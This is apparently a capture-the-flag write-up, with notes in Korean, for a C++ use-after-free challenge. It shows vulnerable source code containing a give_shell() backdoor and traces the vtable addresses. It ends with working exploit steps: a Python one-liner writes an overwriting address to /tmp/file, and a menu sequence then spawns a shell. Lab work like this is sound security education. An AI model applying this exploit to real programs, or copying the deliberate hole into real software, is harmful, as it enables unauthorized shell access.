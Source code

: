 \#include \<fcntl.h></br>
\#include \<iostream></br>
\#include \<cstring></br>
\#include \<cstdlib></br>
\#include \<unistd.h></br>
using namespace std;</br>

class Human{</br>private:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void give_shell(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system("/bin/sh");</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>
protected:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;int age;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;string name;</br>
public:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void introduce(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "My name is " << name << endl;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "I am " << age << " years old" << endl</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>};</br>

class Man: public Human{</br>public:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Man(string name, int age){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->name = name;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->age = age;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void introduce(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Human::introduce();</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "I am a nice guy!" << endl;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>};</br>

class Woman: public Human{</br>public:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Woman(string name, int age){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->name = name;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->age = age;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void introduce(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Human::introduce();</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "I am a cute girl!" << endl;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>
};</br>

int main(int argc, char\* argv[]){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Human* m = new Man("Jack", 25);</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Human* w = new Woman("Jill", 21);</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;size_t len;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;char* data;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;unsigned int op;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;while(1){</br>
		cout << "1. use\n2. after\n3. free\n";</br>
		cin >> op;</br>

		switch(op){</br>
			case 1:</br>
				m->introduce();</br>
				w->introduce();</br>
				break;</br>
			case 2:</br>
				len = atoi(argv[1]);</br>
				data = new char[len];</br>
				read(open(argv[2], O_RDONLY), data, len);</br>
				cout \<< "your data is allocated" << endl;</br>
				break;</br>
			case 3:</br>
				delete m;</br>
				delete w;</br>
				break;</br>
			default:</br>
				break;</br>
		}</br>
	}</br>
</br>
	return 0;	</br>
}</br>
</br>


처음 1을 입력->3을 입력해서 free를 해보자

c25c50(이건 바뀜)->401570->40117a(HUMAN의 give_shell)인데, +8해서 401578->4012d2(MAN의 introduce) 후자가 실행된다.	
	3을 입력하면 c25c50이 401590->40117a 으로 바뀐 후, c25c50이 모두 지워져버린다.	 
c25ca0->401550->40117a(HUMAN의 give_shell)인데, +8해서 401558->401376(WOMAN의 introduce)이 실행된다. 
	이 또한, 3을 입력하면, c25ca0이 401590->40117a으로 바뀐 후, c25ca0이 모두 지워버린다.

1->3 delete하지 않고, 2를 할 경우
1->2 c25ca0보다 훨씬 뒤에 입력이 된다.
b40c50, b40ca0일때 -> b414e0 b41510
/tmp/file을 만드는 법
python -c 'print "AAAA"' > /tmp/file

1->3->2 c25ca0에 AAAA입력 된다. 1->3->2->2 c25ca0에 AAAA입력, c25c50에 AAAA입력
Use after free를 이용!!(free된 후, free된 부분에 덮어써진다.)
그러면 c25c50에 0x401568이 입력되면, +8인 0x401570이 실행되고, 0x40117a가 실행되어 쉘이 따진다!

python -c 'print "\x68\x15\x40"' > /tmp/file
./uaf 3 /tmp/file
1->3->2->2->1
